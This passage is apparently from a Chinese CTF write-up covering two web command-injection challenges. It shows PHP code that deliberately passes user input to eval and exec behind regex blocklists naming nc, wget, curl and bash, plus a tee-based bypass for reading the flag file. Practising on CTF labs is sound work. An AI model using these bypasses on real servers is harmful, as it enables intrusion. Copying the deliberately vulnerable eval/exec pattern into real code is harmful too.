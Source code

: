 ```
    if(!preg_match('/system|nc|wget|exec|passthru|bash|sh|netcat|curl|cat|grep|tac|more|od|sort|tail|less|base64|rev|cut|od|strings|tailf|head/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("师傅们居然破解了前面的，那就来一个加强版吧");
    }
}
```

web133的加强版

![image-20221005164506615](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202210051645691.png?x-oss-process=hzy)

还是可以执行的，但是这里过滤了更多，其中curl也过滤了。

把flag数据转存到另外一个路径文件下

![image-20221005164729912](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202210051647979.png?x-oss-process=hzy)

![image-20221005164712595](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202210051647665.png?x-oss-process=hzy)

# web136

```
<?php
error_reporting(0);
function check($x){
    if(preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $x)){
        die('too young too simple sometimes naive!');
    }
}
if(isset($_GET['c'])){
    $c=$_GET['c'];
    check($c);
    exec($c);
}
else{
    highlight_file(__FILE__);
}
?>
```

传参c，命令执行，也是无回显，并且过滤了>,和cp，没办法转存到其他文件下

使用tee

```
ls|tee f
ls /|tee f
cat /f149_15_h3r3|tee f
```
